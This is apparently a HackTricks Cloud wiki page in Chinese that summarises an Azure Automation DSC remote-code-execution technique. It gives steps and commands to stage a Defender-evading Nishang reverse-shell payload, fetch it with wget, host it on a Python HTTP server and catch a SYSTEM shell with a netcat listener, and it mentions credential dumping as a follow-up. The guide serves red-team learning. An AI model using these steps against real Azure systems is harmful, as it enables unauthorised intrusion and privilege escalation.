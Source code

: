# Az - State Configuration RCE

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

**查看完整帖子：** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### 远程服务器 (C2) 基础设施准备和步骤概述

#### 概述

该过程涉及设置一个远程服务器基础设施，以托管一个修改过的 Nishang `Invoke-PowerShellTcp.ps1` 有效载荷，命名为 `RevPS.ps1`，旨在绕过 Windows Defender。该有效载荷从 IP 为 `40.84.7.74` 的 Kali Linux 机器上通过一个简单的 Python HTTP 服务器提供。操作通过几个步骤执行：

#### 步骤 1 — 创建文件

* **所需文件：** 需要两个 PowerShell 脚本：
1. `reverse_shell_config.ps1`：一个获取并执行有效载荷的期望状态配置 (DSC) 文件。可以从 [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1) 获取。
2. `push_reverse_shell_config.ps1`：一个将配置发布到虚拟机的脚本，位于 [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1)。
* **定制：** 这些文件中的变量和参数必须根据用户的特定环境进行调整，包括资源名称、文件路径和服务器/有效载荷标识符。

#### 步骤 2 — 压缩配置文件

* 将 `reverse_shell_config.ps1` 压缩为 `.zip` 文件，以便准备传输到 Azure 存储帐户。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — 设置存储上下文并上传

* 压缩的配置文件使用 Azure 的 Set-AzStorageBlobContent cmdlet 上传到预定义的 Azure 存储容器 azure-pentest。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Step 4 — 准备 Kali Box

* Kali 服务器从 GitHub 仓库下载 RevPS.ps1 有效载荷。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* 脚本被编辑以指定目标 Windows 虚拟机和反向 shell 的端口。

#### Step 5 — 发布配置文件

* 配置文件被执行，导致反向 shell 脚本被部署到 Windows 虚拟机的指定位置。

#### Step 6 — 托管有效负载并设置监听器

* 启动一个 Python SimpleHTTPServer 来托管有效负载，并使用 Netcat 监听器来捕获传入连接。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* 计划任务执行有效载荷，获得SYSTEM级别的权限。

#### 结论

该过程的成功执行为进一步的操作打开了众多可能性，例如凭证转储或将攻击扩展到多个虚拟机。该指南鼓励在Azure Automation DSC领域继续学习和创造。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
